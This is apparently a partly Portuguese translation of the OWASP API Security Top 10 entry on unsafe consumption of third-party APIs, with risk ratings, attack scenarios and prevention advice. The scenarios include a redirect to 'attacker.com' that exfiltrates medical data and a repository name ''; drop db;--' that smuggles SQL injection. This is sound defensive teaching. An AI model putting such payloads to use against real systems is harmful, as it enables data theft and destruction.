 # API10:2023 Unsafe Consumption of APIs

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Comum** : Deteção **Moderado** | Técnico **Severo** : Específico Negócio |
| Explorar este problema requer que os atacantes identifiquem e potencialmente comprometam outras APIs/serviços com os quais a API alvo está integrada. Normalmente, esta informação não está disponível publicamente ou a API/serviço integrado não é facilmente explorável. | Os desenvolvedores tendem a confiar e não a verificar os _endpoints_ que interagem com APIs externas ou de terceiros, dependendo de requisitos de segurança mais fracos, como aqueles relacionados à segurança do transporte, autenticação/autorização e validação e sanitização de dados. Os atacantes precisam identificar os serviços com os quais a API alvo se integra (fontes de dados) e, eventualmente, comprometer esses serviços. | O impacto varia de acordo com o que a API alvo faz com os dados extraídos. A exploração bem sucedida pode levar à exposição de informações sensíveis a atores não autorizados, a vários tipos de injeções ou à negação de serviço. |

## A API é vulnerável?

Os desenvolvedores tendem a confiar mais nos dados recebidos de APIs de 
terceiros do que nos dados fornecidos por utilizadores. Isso é especialmente 
verdade para APIs oferecidas por empresas bem conhecidas. Por essa razão, os 
desenvolvedores tendem a adotar padrões de segurança mais fracos, especialmente 
no que diz respeito à validação e sanitização de dados.

A API pode estar vulnerável se:

* Interage com outras APIs através de um canal não encriptado;
* Não valida e sanitiza corretamente os dados recolhidos de outras APIs antes de
  os processar ou de os passar para componentes posteriores;
* Segue redirecionamentos cegamente;
* Não limita o número de recursos disponíveis para processar respostas de
  serviços de terceiros;
* Não implementa limites de tempo para interações com serviços de terceiros;

## Exemplos de Cenários de Ataque

### Cenário #1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Cenário #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Bad actors found a way to compromise the third-party API and it starts
responding with a `308 Permanent Redirect` to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Cenário #3

An attacker can prepare a git repository named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repository, SQL injection payload is used on an application that
builds an SQL query believing the repository's name is safe input.

## Como Prevenir

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## Referências

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externas

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
